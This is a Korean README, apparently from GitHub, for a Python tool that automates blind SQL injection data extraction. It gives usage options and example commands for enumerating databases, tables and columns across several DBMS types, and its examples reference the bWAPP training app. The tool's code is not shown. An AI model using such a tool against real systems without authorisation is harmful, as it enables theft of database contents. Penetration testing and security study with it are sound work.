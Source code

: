 # Bliend SQL Injection 발견 시 데이터 추출 자동화 도구
참/거짓(1=1) 조건문을 포함한 BurpSuite Reqeust 데이터를 코드 내 REQUEST_STRING 변수에 추가 후 사용\n
결과값은 .db파일로 저장됨

```
usage: sqli.py [-h] [-s SCHEMA] [-p PARAMETER] [-d RESULT_DB] [-D SELECT_DB] [-T SELECT_TABLE] [-C SELECT_COLUMN] [--dbms DBMS] [--proxy PROXY] (--basic | --dbs | --tables | --columns)

optional arguments:
  -h, --help        show this help message and exit
  -s SCHEMA         http? https? EX) -s HTTP
  -p PARAMETER      target param -EX title
  -d RESULT_DB      Database name for storing results EX) -d result_db.db
  -D SELECT_DB      select DB EX) -D bWAPP
  -T SELECT_TABLE   select Table EX) -T 'USERS', 'EXAMPLE_TABLE' # 싱글쿼터 없어도됨
  -C SELECT_COLUMN  select Column EX) -C 'blog', 'heroes'# 싱글쿼터 없어도됨
  --dbms DBMS       SELECT DBMS : MySQL, Oracle, MSSQL, PostgreSQL EX) oracle
  --proxy PROXY     Use a proxy to connect to the target URL EX) 127.0.0.1:8080
  --basic           Basic info extraction
  --dbs             Enumerate DBMS databases
  --tables          Enumerate Tables
  --columns         Enumerate columns
```

### 기본 정보 추출
`python sqli.py -s http -dbms oracle -p username -d oracle_result.db --basic `
  
### DB 목록 추출
`python sqli.py -s http -dbms oracle -p username -d oracle_result.db --dbs `

### 테이블 목록 추출
`python sqli.py -s http -dbms oracle -p username -d oracle_result.db --tables -D C##kazal92`

### 컬럼 목록 추출
`python sqli.py -s http -dbms oracle -p username -d oracle_result.db --columns -D C##kazal92 -T 'USERS', 'EXAMPLE_TABLE'`
